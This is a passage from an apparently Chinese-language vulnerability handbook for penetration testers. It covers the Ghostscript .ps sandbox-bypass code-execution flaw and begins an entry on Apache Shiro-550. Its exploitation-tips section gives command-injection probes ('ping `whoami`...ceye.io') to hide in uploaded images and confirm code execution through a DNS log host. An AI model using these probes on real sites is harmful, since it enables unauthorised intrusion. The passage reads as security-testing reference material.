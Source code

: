 Ghostscript 是图像处理中十分常用的库, 集成在imagemagick等多个开源组件中, 其 .ps文件存在沙箱绕过导致代码执行的问题影响广泛, 由于上传图片就有可能代码执行, 很多大厂中招

**2.** **影响组件**

imagemagick, libmagick, graphicsmagick, gimp, python-matplotlib, texlive-core, texmacs, latex2html, latex2rtf 等图像处理应用

**3.** **漏洞指纹**

`.ps/.jpg/.png`

**4. Fofa Dork**

**5.** **漏洞分析**

ghostscript命令执行漏洞预警 – 安全客, 安全资讯平台  
https://www.anquanke.com/post/id/157513

**6.** **漏洞利用**

Exploit Database Search  
https://www.exploit-db.com/search?q=Ghostscript

vulhub/ghostscript/CVE-2019-6116 at master · vulhub/vulhub  
https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2019-6116

**7.** **利用技巧**

1.如果发现网站可以上传图片, 且图片没有经过裁剪, 最后返回缩略图, 这里就可能存在Ghostscript 上传图片代码执行dnslog 可以用 ``ping `uname`.admin.ceye.io`` 或 ``ping `whoami`.admin.ceye.io``保存成图片, 以后用起来方便, 有个版本的 centos 和 ubuntu poc还不一样, 可以这样构造``ping `whoami`.centos.admin.ceye.io`` / ``ping `whoami`.ubuntu.admin.ceye.io``分别命名为 `centos_ps.jpg`/`ubuntu_ps.jpg`, 这样测试的时候直接传2个文件, 通过DNSLOG可以区分是哪个poc执行的

**8.** **防护方法**

1.升级到最新版

* * *

  

Apache Shiro RememberMe 反序列化导致的命令执行漏洞 (Shiro-550, CVE-2016-4437）
================================================================

  

**1. 漏洞简介**  

Apache Shiro 是企业常见的Java安全框架, 其漏洞在2019年攻防演练中起到显著作用  

  

**2. 影响组件**

Apache Shiro (由于密钥泄露的问题, 部分高于1.2.4版本的Shiro也会受到影响)

  

**3. 漏洞指纹**

set-Cookie:rememberMe=deleteMe或者URL中有shiro字样有一些时候服务器不会主动返回 rememberMe=deleteMe, 直接发包即可

  

**4. Fofa Dork**
